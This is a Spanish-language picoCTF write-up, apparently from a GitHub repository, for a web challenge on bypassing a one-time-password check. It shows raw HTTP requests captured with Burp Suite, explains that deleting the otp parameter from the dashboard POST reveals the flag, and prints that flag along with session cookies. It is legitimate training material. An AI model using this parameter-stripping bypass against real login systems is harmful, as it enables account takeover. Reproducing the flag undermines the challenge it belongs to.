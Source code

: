 
## Descripción

*Additional details will be available after launching your challenge instance.*

*Try [here](http://titan.picoctf.net:57714/) to find the flag*

## Pistas

*Try using burpsuite to intercept request to capture the flag.
Try mangling the request, maybe their server-side code doesn't handle malformed requests very well.*

## Solución

```

#Cuando nos da el form vacio
GET / HTTP/1.1
Host: titan.picoctf.net:57475
Accept-Language: es-419,es;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJjc3JmX3Rva2VuIjoiYmVmYjI5Njk0OGQyYjBhNTdlNWM0Mjc2ZDZiNTNlMGU3NzI4ZGQwMCJ9.Z-61HA.0JCNRw7bBD7ytpLtKvw1MYUAKaM
Connection: keep-alive



#Cuando llenamos el formulario
POST / HTTP/1.1
Host: titan.picoctf.net:57475
Content-Length: 190
Cache-Control: max-age=0
Accept-Language: es-419,es;q=0.9
Origin: http://titan.picoctf.net:57475
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:57475/
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJjc3JmX3Rva2VuIjoiYmVmYjI5Njk0OGQyYjBhNTdlNWM0Mjc2ZDZiNTNlMGU3NzI4ZGQwMCJ9.Z-61HA.0JCNRw7bBD7ytpLtKvw1MYUAKaM
Connection: keep-alive

csrf_token=ImJlZmIyOTY5NDhkMmIwYTU3ZTVjNDI3NmQ2YjUzZTBlNzcyOGRkMDAi.Z-61HA.xdZ5fGYE_5HU7ck3OTEhH_QkKcs&full_name=ccce&username=eee&phone_number=asds&city=wewww&password=qwqqe&submit=Register

#Llenamos el campo
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:57475
Content-Length: 8
Cache-Control: max-age=0
Accept-Language: es-419,es;q=0.9
Origin: http://titan.picoctf.net:57475
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:57475/dashboard
Accept-Encoding: gzip, deflate, br
Cookie: session=.eJwtjUsOAiEQRO_C2gU03_EyZIAmGmdgwifGGO9uT3RX9ZJX9WbxPl7syqSU7MJib9mP-sBCKGAOsJhFuQSBr9qijgqsSSZoiRytBZcS5-TluW2-rDuSJoQgUsdBWXNluaN6rL0_a0vEAOAEt1rQl7kHbL_78392bP8ZkMA-X0NwLWY.Z-61fg.dCFB4H2TgbpvlzNOlBz-iBBAByE
Connection: keep-alive

otp=qwww

	#Eliminamos  otp=qwww y recargamos la página y nos muestra la bandera.
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
Date: Thu, 03 Apr 2025 16:22:23 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 104
Vary: Cookie
Connection: close

Welcome, 232 you sucessfully bypassed the OTP request. 
Your Flag: picoCTF{#0TP_Bypvss_SuCc3$S_3e3ddc76}
	
#DASHBOARD
Welcome, jjjjj you sucessfully bypassed the OTP request. Your Flag: picoCTF{#0TP_Bypvss_SuCc3$S_3e3ddc76}
```
picoCTF{#0TP_Bypvss_SuCc3$S_3e3ddc76}

## Notas Adicionales 

*Interceptamos el url con burpsuite*
## Referencias 


http://titan.picoctf.net:57714/
http://titan.picoctf.net:56403/dashboard
